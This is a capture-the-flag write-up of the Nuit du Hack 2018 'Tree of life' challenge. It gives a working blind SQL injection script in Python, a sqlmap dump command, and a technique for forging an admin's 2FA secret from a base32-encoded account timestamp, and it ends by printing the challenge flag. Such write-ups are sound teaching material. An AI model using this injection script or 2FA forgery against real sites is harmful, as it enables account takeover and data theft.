





# Tree of life

"Tree of life" was a 300-point challenge at **Nuit du Hack 2018**, that I flagged with [Geluchat](https://twitter.com/Geluchat). It was quite original, and thus quite fun to solve. This writeup comes quite late as I needed to access the challenge website again to write something proper; thanks a lot [sybix](https://twitter.com/4sybix2) for putting it online again! It is our last writeup related to NDH16 (*finally!*).

## Challenge description

```
Access the admin's secret page on https://treeoflife.wargame.rocks
```

> Note: for this writeup, we are not working on the original domain used at la Nuit du Hack, but on https://treeoflife.hzv-ep.sybix.fr.

## Discovery

We are greeted by the following page:



Let's start by following the steps outlined here.

Once we finish **step 2**, we need to scan a QR Code to activate 2FA (*as usual*):



Decoding the QR Code, we can see it has the following value:

```
otpauth://totp/treeoflife.hzv-ep.sybix.fr:arbre?secret=GE2TGMJSGQ3DQMRS&amp;issuer=treeoflife.hzv-ep.sybix.fr
```

We notice that `secret` looks like a base32-encoded string (*that was training for* [Fleet](https://inshallhack.org/cancer_ndh16/)). Let's try to decode it:

```bash
~$ echo -n "GE2TGMJSGQ3DQMRS" | base32 -d
1531246822
```

This could be a random integer, but it definitely looks like a Unix time stamp. Using [unixtimestamp](https://www.unixtimestamp.com/index.php), we can see that it corresponds to **07/10/2018 @ 7:03pm (UTC)**; that's about the time we created our account on the platform (*for this writeup, anyway :-)*).

To make sure we're not making too many assumptions here, we try the first three steps again with a new account. I'll skip the details here, but it convinces us that we're on the right path.

Now that 2FA is set up for our account, we log out and log in once more, and try to access the **secret page**… That tells us the following:



Drat. Welp, what else can we do then? There's one page we haven't visited yet, the **search page**. After playing around with it a little bit, we figure out that it's vulnerable to **blind SQL injection**.

## Exploiting the SQLi

We craft the following script to extract the admin password:

```python
# -*- coding: utf8 -*-
import requests

cookies        = {'sessionid': 'xxxxxxxxxxxxxxxxxxxxxxxx'}
url_prefix     = "https://treeoflife.wargame.rocks/users/search/?username="
payload_prefix = "userwhodoesntexist' or (id = 1 and substr((select password), "
possible_chars = [chr(c) for c in range(32, 127)]
password       = ""


while True:
  for char in possible_chars:

    payload = url_prefix + payload_prefix + str(len(password) + 1) + ", 1) = '"
    payload += char + "') or '1' = '2"

    result = requests.get(payload, cookies=cookies).text

	# John is the name of the admin account, which we can see on the search page
    if 'John' in result:
      password += char
      print password
      break
  else:
    break

print(password)
```

This outputs what seems to be a hash: **393F0376EE939FD25B0999D62AD7EA7E**. By googling it, we figure out that it is the MD5 hash of **"igothacked"**. With this, we're able to log in as the admin!



But unfortunately, we're still not able to read the flag: we need 2FA!

## Stealing the admin's TOTP secret key

During the discovery, we deduced that the **TOTP secret** used to generate the 2FA tokens was the **Unix time stamp of the joining date of the user**. Therefore, all that's left is to dump the admin's joining date on the website.

To be completely honest, we were not feeling up to the task at la Nuit du Hack (*it was, after all, 4 am*), so we resorted to `sqlmap` to get this piece of information:

```bash
# Totally not overkill command
~$ python sqlmap.py -u "https://treeoflife.wargame.rocks/users/search/?username=" --dump --risk 3 --level 3  --threads=10
...
[04:49:26] [INFO] retrieved: "2018-06-07 15:08:20.680000","","John","1","1","...
...
```

Gotcha! Converting **2018-06-07 15:08:20.680000** to a Unix time stamp, we get: **1528384100**, which is **GE2TEOBTHA2DCMBQ** once base32-encoded.

We use this to generate a QR Code containing the following link: `otpauth://totp/treeoflife.hzv-ep.sybix.fr:arbre?secret=GE2TEOBTHA2DCMBQ&amp;issuer=treeoflife.hzv-ep.sybix.fr`:


We scan it using **Google Authenticator**, input the token it generates on the **secret** page and…



**Flagged!**


**Flag: ndh16_dc68a06c0034e6974b39a96d69f1e184f3d28982**

## Wrapping up

This challenge was pretty fun, it's not often that we get to play with 2FA tokens. On a personal note, I'm glad to be **finally** done with my Nuit du Hack writeups. I expected to publish some writeups for Akerva's challenge as well, but they posted the whole solution on their website.

If I'm being perfectly honest, this writeup was quite lazy, but I hope you enjoyed the read anyway!
